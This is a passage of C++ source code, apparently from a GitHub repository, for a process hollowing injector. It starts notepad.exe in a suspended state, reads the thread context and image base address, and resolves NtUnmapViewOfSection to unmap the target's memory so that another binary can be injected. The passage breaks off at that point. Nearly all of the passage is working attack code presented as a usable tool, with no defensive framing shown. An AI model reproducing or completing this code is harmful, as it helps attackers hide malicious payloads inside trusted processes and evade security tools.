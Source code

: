 ```cpp

typedef struct RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} RELOCATION_ENTRY, * PRELOCATION_ENTRY;

```
#### source.cpp
```cpp

#include <stdio.h>
#include <windows.h>
#include <string.h>
#include <winternl.h>
#include "Header.h"
#include <iostream>


int main(int argc, char* argv[]) {

	if (argc != 2) {
		printf("Usage: Process Hollowing.exe [Binary you want to Inject]\n");
		return 0;
	}


	// Creating Suspended Process And Mapping a File To Memory
	LPSTARTUPINFOA startupInfo = new STARTUPINFOA();
	PROCESS_INFORMATION procInfo;


	printf("[+] Creating Notepad.exe as Suspended Process.\n");
	CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, startupInfo, &procInfo);

	// Get All The Register Values
	printf("[+] Getting Current Context.\n");
	LPCONTEXT threadContext = new CONTEXT();
	threadContext->ContextFlags = CONTEXT_FULL;
	if (!GetThreadContext(procInfo.hThread, threadContext)) {
		printf("[-] Error getting context\n");
		return 0;
	}

	// Get The Base Address Of The Suspended Process
	PVOID baseAddress;

#ifdef _X86_ 
	ReadProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Ebx + 8), &baseAddress, sizeof(PVOID), NULL);
#endif

#ifdef _WIN64
	ReadProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Rdx + (sizeof(SIZE_T) * 2)), &baseAddress, sizeof(PVOID), NULL);
#endif

	// Getting The Address Of NtUnmapViewOfSection And Unmapping All Sections
	printf("[+] Unmapping the Memory Section of Target Process.\n");
	HMODULE ntdllHandle = GetModuleHandleA("ntdll");
	FARPROC ntUnmapViewOfSectionProc = GetProcAddress(ntdllHandle, "NtUnmapViewOfSection");
	_NtUnmapViewOfSectionFunc ntUnmapViewOfSection = (_NtUnmapViewOfSectionFunc)ntUnmapViewOfSectionProc;
```